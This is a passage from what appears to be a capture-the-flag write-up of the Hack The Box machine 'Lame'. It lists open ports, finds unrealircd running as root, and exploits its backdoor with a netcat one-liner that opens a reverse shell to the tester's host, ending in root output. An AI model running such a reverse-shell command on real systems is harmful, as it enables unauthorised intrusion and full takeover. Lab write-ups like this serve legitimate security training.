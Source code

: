     tcp6       0      0 :::2121                 :::*                    LISTEN      -                                                                   
    tcp6       0      0 :::3632                 :::*                    LISTEN      -                                                                   
    tcp6       0      0 :::53                   :::*                    LISTEN      -                                                                   
    tcp6       0      0 :::22                   :::*                    LISTEN      -                                                                   
    tcp6       0      0 :::5432                 :::*                    LISTEN      -                                                                   
    tcp6       0      0 ::1:953                 :::*                    LISTEN      - 



Also, the process list shows `unrealircd` running as root :



    daemon@lame:/tmp$ ps auxww                                                                                                                                                                                                           
    USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND                                                                                                                                                             
    root         1  1.3  0.3   2844  1692 ?        Ss   15:26   0:00 /sbin/init                                                                                                                                                          
    root         2  0.0  0.0      0     0 ?        S<   15:26   0:00 [kthreadd]
    ...[snip]...
    root      5203  0.0  0.4   8540  2356 ?        S    15:27   0:00 /usr/bin/unrealircd 
    ...[snip]



On trying to connect to this port, I get output that identifies this as
from Metasploitable:



    daemon@lame:/tmp$ nc 127.0.0.1 6697
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
    ERROR :Closing Link: [127.0.0.1] (Ping timeout)



That suggests it's likely the vulnerable version.

#### Exploit

I exploited this version of IRC in [Irked](/htb-irked.md),
and even wrote my own script to exploit it. However, it was Python3, and
this box doesn't have Python3. Rather than back-port it, I can use a
one-liner from my shell:



    daemon@lame:/tmp$ echo "AB; nc -e /bin/sh 10.10.14.24 443" | nc 127.0.0.1 6697
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead



And in a `nc` listener, get a shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.3.
    Ncat: Connection from 10.10.10.3:49683.
    id
    uid=0(root) gid=0(root)

